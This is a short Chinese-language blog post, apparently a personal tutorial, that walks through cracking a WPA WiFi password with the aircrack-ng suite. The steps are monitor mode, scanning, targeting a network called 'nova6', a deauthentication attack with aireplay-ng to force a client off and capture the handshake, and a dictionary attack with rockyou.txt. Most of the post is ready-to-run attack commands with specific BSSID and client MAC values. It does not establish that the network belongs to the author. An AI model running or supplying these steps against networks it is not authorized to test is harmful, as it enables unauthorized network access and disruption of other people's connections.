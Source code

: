 title: WIFI暴力破解
author: John Jue
date: 2023-12-10 20:25:47
tags:
---
<b>最重要的，得先有一张无线网卡</b>

![upload successful](/images/pasted-778.png)
可以看到这张网卡名字为wlan0

首先解压kali自带的爆破字典`/usr/share/wordlist/`

![upload successful](/images/pasted-777.png)

先开启监听`airmon-ng start wlan0`

![upload successful](/images/pasted-779.png)

开始扫描wifi，`airodump-ng wlan0`

![upload successful](/images/pasted-780.png)
<li>BSSID：路由器的MAC地址
<li>PWR：信号值，绝对值越低，说明信号越强
<li>CH：当前路由器使用的信道
  
然后找到自己要爆破的wifi，这里选择 nova6

开始监听该wifi：

`airodump-ng --bssid 5A:2D:6C:3A:76:16 -c 8 -w nova6 wlan0
`

--bssid 后输入wifi的bssid

![upload successful](/images/pasted-783.png)
-c 后输入wifi 的信道值ch

![upload successful](/images/pasted-782.png)
确认有无设备连接，另开一个终端，然后进行断网抓取握手包
`aireplay-ng -0 90 -a  5A:2D:6C:3A:76:16 -c 14:AC:60:B4:48:87 wlan0`
-0：制定攻击次数。

-a：路由器的bssid值

-c：目标mac地址

![upload successful](/images/pasted-784.png)
这里就成功抓到握手包了
进行爆破
`aircrack-ng -a2 -b 5A:2D:6C:3A:76:16 -w rockyou.txt nova6-02.cap`

![upload successful](/images/pasted-785.png)
爆破成功，密码为123456



